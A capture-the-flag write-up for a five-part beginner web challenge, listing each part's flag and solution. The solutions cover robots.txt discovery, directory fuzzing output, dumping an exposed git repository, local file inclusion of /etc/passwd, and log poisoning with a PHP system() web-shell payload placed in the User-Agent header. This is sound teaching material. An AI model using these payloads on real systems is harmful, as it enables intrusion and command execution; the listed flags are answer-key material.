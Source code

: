 # Challenge

**Name:** Welcome To Web

**Category:** Web

**Author:** Alex Brown (ghostccamm)

---

**Name Part A:** Welcome To Web Part A: No Robots

**Difficulty Part A:** Easy

**Flag Part A:** `ISS{r0BoT5.tXt_d0nT_h1D3_fR0m_eVrYtH1nG!1one!}`

## **Description Part A:**

I am currently developing a new super duper cool website. However, I do not want **search engines** to list our website until I have completed it.

Can you find the first secret folder?

## **Solution Part A:**

Websites use a file located at `/robots.txt` to list what search engine bots can and cannot list. Checking the `/robots.txt` (shown below) reveals the first secret folder is `/topsecretconstruction/`. Visiting the `/topsecretconstruction/` page on the website will reveal the flag for Part A.

*robots.txt*
```
User-agent: *
Disallow: /topsecretconstruction/
```

---

**Name Part B:** Welcome To Web Part B: A Bit Fuzzy

**Difficulty Part B:** Easy

**Flag Part B:** `ISS{fUzZi_wUzZi_oWo}`

## **Description Part B:**

**To complete this challenge you need to have completed 'Welcome To Web: No Robots'**

Well... I guess I cannot hide my website from humans... However, I have added an additional security precaution to hide our website. It makes me feel **fuzzy** that you cheeky hackers will not be able to find it!

Can you find the second secret folder?

**Limit your web fuzzer to max 10 threads!**

## **Solution Part B:**

Using a web fuzzer such as `feroxbuster`, `gobuster`, `wfuzz`, etc using the SecLists `common.txt` wordlist will reveal the folder `/topsecretconstruction/v1/`. Visiting this page will show the flag for Part B.

```
$ feroxbuster --url http://127.0.0.1:4245/topsecretconstruction/ --extract-links -t 5 -w /usr/share/seclists/Discovery/Web-Content/common.txt -n 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://127.0.0.1:4245/topsecretconstruction/
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
WLD        7l       14w      186c Got 500 for http://127.0.0.1:4245/topsecretconstruction/1c3cd99675db4c82bbf55157f9208552 (url length: 32)
WLD         -         -         - Wildcard response is static; auto-filtering 186 responses; toggle this behavior by using --dont-filter
WLD        7l       14w      186c Got 500 for http://127.0.0.1:4245/topsecretconstruction/8545a114051b40ba93cb2b174b2cb953c50afa05b2e543a6b02e776992049b806946439fc6b640048ceb75e48df5be60 (url length: 96)
200        6l        8w        0c http://127.0.0.1:4245/topsecretconstruction/index.php
301        7l       12w      178c http://127.0.0.1:4245/topsecretconstruction/v1
[####################] - 3s      4702/4702    0s      found:4       errors:0      
[####################] - 2s      4704/4702    2010/s  http://127.0.0.1:4245/topsecretconstruction/

```

---

**Name Part C:** Welcome To Web Part C: Git Good At Hacking

**Difficulty Part C:** Easy

**Flag Part C:** `ISS{3xp05eD_g1T_r3P0!1!!one!}`

## **Description Part C:**

**To complete this challenge you need to have completed 'Welcome To Web: A Bit Fuzzy'**

Flip you are good at hacking... Fortunately I removed my secret **`secret.txt`** from the development website! I do not want that to be **exposed**!

Can you find a way to read the flag that was in `secret.txt` before it was deleted?

## **Solution Part C:**

Either using a web fuzzer similar to Part B or inferring from the **Git** in the challenge name, you can test if a git repository has been exposed on the website by trying to open `.git/HEAD`. You can open `/topsecretconstruction/v1/.git/HEAD`, therefore the entire git repository can be downloaded using a tool such as `git-dumper`.

Once the git repository has been downloaded, checking the git logs show that `secret.txt` being deleted. Using `git diff` will reveal the contents of `secret.txt` that was deleted.

```
$ git diff 36cc2069236f6d7981aaa2c5eecb4c961e83f4cf 9c06ec592ddb07079204e0e83723bfb575c4a3da
diff --git a/secret.txt b/secret.txt
new file mode 100644
index 0000000..ab0403f
--- /dev/null
+++ b/secret.txt
@@ -0,0 +1 @@
+ISS{3xp05eD_g1T_r3P0!1!!one!}
```

---

**Name Part D:** Welcome To Web Part D: Let's Find Insecurities

**Difficulty Part D:** Easy

**Flag Part D:** `ISS{lF1_w1ll_c4v53_tH15_w3B_2_d13!1!}`

## **Description Part D:**

**To complete this challenge you need to have completed 'Welcome To Web: A Bit Fuzzy'**

Alright well all you pesky script kiddies have find my website under construction. I don't care! There is nothing to exploit here!

Can you find a way to read the flag located at `/flag` on the challenge instance?

## **Solution Part D:**

Playing with the buttons reveal that there is a `page` GET parameter in the URL (`/topsecretconstruction/v1/index.php?page=dashboard.php`). Testing if this vulnerable to Local File Inclusion (LFI), you can test if you can the `/etc/passwd` file on the challenge instance by visiting `/topsecretconstruction/v1/index.php?page=/etc/passwd`, which works!

To get the flag all you just need to set `page=/flag`.

```
/topsecretconstruction/v1/index.php?page=/flag
```

---

**Name Part E:** Welcome To Web Part E: Poisonous Logs

**Difficulty Part E:** Easy

**Flag Part E:** `ISS{p01s0n0v5_l0G5_c4n_r35vLt_1n_rC3!one}`

## **Description Part E:**

**To complete this challenge you need to have completed 'Welcome To Web: Let's Find Insecurities'**

I give up! At least you pro hackers cannot **execute commands** on my website!

To get the final flag, figure out a way to execute the command `getfinalflag` on the challenge instance.

## **Solution Part E:**

LFI vulnerabilities can be leveraged as a Remote Code Execution (RCE) vulnerabiltiy if the attacker can read a file that executes PHP code the attacker places there. One of the most common methods to do this is by injecting PHP code into log files, then triggering the exploit by opening the log file using the LFI vulnerability.

Checking for common log files on the challenge instance you will be able to open `/var/log/nginx/access.log` and `/var/log/nginx/error.log`. To turn the LFI into a RCE vulnerability, you can modify your `User-Agent` header using a tool such as Burp Suite to `Mozilla/5.0 <?php system($_GET['cmd']); ?> Firefox/91.0` and visit any page on the website. This will inject the PHP code `<?php system($_GET['cmd']); ?>` into `/var/log/nginx/access.log` that will execute the terminal command given as the GET parameter `cmd`.

Exploiting the LFI to open `/var/log/nginx/access.log` and executing the cmd `getfinalflag` will show the final flag (URL path `/topsecretconstruction/v1/index.php?page=/var/log/nginx/access.log&cmd=getfinalflag`).

![](solution/logpoisoning.png)

---